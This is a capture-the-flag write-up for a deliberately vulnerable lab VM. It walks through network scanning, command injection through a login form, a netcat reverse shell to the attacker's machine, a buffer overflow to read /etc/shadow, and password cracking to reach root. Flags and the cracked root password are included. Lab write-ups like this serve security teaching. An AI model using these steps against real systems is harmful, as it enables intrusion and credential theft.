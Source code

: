 # PZY VM (Hard Difficulty)

This directory consists of challenges related to `PZY VM`.

Author: Xiaozhi and Ting Hui

## Silky CTF writeup 
Step 1: Click edit > virtual box editor, candidates should find their NAT network adapters ip address range. On my vmware, its 192.168.11.0.

Step 2: To identify SilkyCTF VM’s ip address, use the nmap -sn 192.168.11.0/24 to view the active ip address. To validate which ip address belongs to the SILKYCTF VM, use the nmap -A <ip address> to view the open ports as well as the operating system of the ip address.
  

Step 3: Based on the nmap scan above, candidates will be able to see that port 80 is open. When entering the webpage 192.168.11.131 into mobzilla firefox, candidates will see this page.
 
To check for any hidden directory in the apache server, use the dirburster command: 
dirb http://192.168.11.131/ .
 
Step 4:When entering http://192.168.11.131/admin.php,
It greets us with a login button , when clicked, it shows a pop-up login page.
 
Page after a wrong credential is entered.
 








Step 5: Let’s test for some command vulnerability. Some attacks that come to mind when attacking a webpage:
•	SQL injection
•	Cross site scripting
•	Local File intrusion (LFI) /command injection
When entering ls into username field and password =passwd,
We get the following:
 
 
It looks like the apache server has a LFI vulnerability, 


Step 6) Using the login form, I used ls command in silky’s home directory to check if there are any hidden clues.
 
 

It shows that there is a file named flag.txt in silky home directory. 








Step 7) Now to get the flag, use the cat command in the login form.
 
 
Flag : d68815f2afbc48a2a717de2f35478600








Step 8) Next, execute a python reverse shell to get a reverse connection. First set up the netcat listener using nc -lvp 4444 on the kali machine.
 
Then create a reverse shell to send a bash shell from the apache server by issuing the command in the login form:
/bin/nc 192.168.11.130 4444 -e /bin/bash
 
Check the kali machine:
 



Step 9) Next add a python command to upgrade the shell into a linux Debian shell.
python -c ‘import pty;pty.spawn(“/bin/bash”)’
 

Step 10) Based on the screenshot in step 6, there was an unusual binary file in silky’s home directory named cat_shadow. By using the ls -alh command in silky’s home directory, it is a file that is owned by root.
 

Step 11) On execution, the file is checking HEX value, which would make it seem vulnerable to buffer overflow vulnerability.
 

Step 12) Create a simple python script to allow an buffer overflow attack. In this script, write 64 bad characters of “A” and then adds the value of “0x496c5962” in little-endian format and provide the result as input to the “cat_shadow” file and allow us to read the “/etc/shadow” file.
The script is as follows and is used like this:
 
Step 12) Copy the hashes into a txt file and use john to decode the password. This would get you the password for root. This may take some time. 
 
Step 13) Once done, john should show that the password for root is greygrey. Now using the su command, log into root and get the flag.
 
Root flag : d1f258a6ec26dffbbdec79f68890a5e8


